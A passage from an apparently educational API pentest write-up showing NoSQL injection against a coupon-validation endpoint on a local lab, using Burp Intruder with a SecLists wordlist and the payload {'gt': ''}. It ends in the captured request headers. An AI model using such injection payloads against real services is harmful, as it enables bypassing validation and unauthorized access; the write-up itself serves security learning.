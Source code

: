 ![NOSQLi Burp Intruder](/assets/img/posts/api-pentest/nosqli_1.png)

And then we select the wordlist that we want use in the "Payload" tab of Burp Intruder, in this case I used NoSQL.txt wordlist of SecLists.

After some seconds, we can see the requests and we got 200 with the payload ```{"gt": ""}```:
![NOSQLi Burp Intruder](/assets/img/posts/api-pentest/nosqli_2.png)

The request will be:
```
POST /community/api/v2/coupon/validate-coupon HTTP/1.1
Host: localhost:8888
Content-Length: 27
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="104"
Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0QHRlc3QuY29tIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2ODEwMzQwMDcsImV4cCI6MTY4MTYzODgwN30.sHarqn3O1wx3QpUsymoOev1NtkMUgc08FFLE96scPWyLS8RMqL6MpH9KdDeekbIDqkf4KEH10iLGid_MVo5XA113G3lhvxZZkObW6lzErBrMOsdjfgU9WTBICdmhJk2_GG7EJmCXxpFKx1_n83OjcZZxzmH3dzIQiWRTBMBPrfouNgEuYDuT9hjoIzlAsIrvP2QKsBGbl-tn3F3nOd6pra2LsoW1RB4HvkzqjKOUdb6vVmMxc78s-2XnTRL11wpYAoN8khkQuLQKmt000iwIlH289mThcapjJKrZZNzFz3JrYgEzOMbOU_oNpZKfWzNmdBAXpkSsMEIsLVOfHZiLNg
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
```